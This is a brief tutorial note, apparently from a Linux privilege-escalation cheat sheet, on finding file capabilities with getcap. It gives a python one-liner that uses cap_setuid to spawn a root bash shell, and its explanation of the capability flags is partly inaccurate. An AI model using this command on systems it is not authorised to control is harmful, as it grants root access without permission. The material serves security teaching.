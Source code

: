 Linux Capabilities allow users and processes to be granted specific access to resources without providing full root access.

Linux Capabilities are used to allow a process or a program to be run as root, while not providing full root access.

**NOTE:** Run **_`getcap -r / 2>/dev/null`_** to list all the Capabilities within a Linux system.

**Example:** Consider an example where you run **_`getcap -r / 2>/dev/null`_** and find that **_/usr/bin/python2.6 = cap_setuid+ep_** is a capability.

- This means that **_python2.6_** can run any program as root since it has a **setuid** bit with **_ep_** as permit everything.

- To escalate current shell into a root shell, run 
**_`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`_**

Here, _**`python2.6`**_ will import the **_`os`_** function and set privileges to root using the **_`os.setuid(0)`_** part and then run **_`/bin/bash`_** to spawn a bash root shell. 
***

